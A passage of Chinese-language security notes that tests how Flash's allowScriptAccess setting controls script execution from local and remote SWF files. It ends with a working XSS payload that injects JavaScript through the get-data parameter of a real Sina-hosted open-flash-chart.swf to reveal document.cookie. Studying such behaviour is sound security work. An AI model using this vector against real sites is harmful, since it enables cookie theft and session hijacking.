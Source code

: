 2）：插入本地的Flash，将allowScriptAccess参数改为samedomain。  
``` html
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="samedomain" />
<param name="allowNetworking" value="all" />
```
运行结果：  
![flash1](../pictures/flash1.png)  
Html界面与Flash属于同域，因此能够弹出。  

3）：插入本地Flash，将allowScriptAccess改为never。  
``` html
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="never" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果没有弹出。  
4）：插入远程Flash，将allowScriptAccess改为always。  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果：  
![flash1](../pictures/flash1.png)
注意这里弹出的域为当前html的域名，非Flash的域。      
但如果用 iframe 来嵌入 flash 的话，运行你会发现，弹出的是新浪域的cookie。  
``` html
<iframe/src="http://data.house.sina.com.cn/images/price_trend/open-flash-chart.swf?get-data=(function(){alert
(document.cookie)})()"></iframe>
```
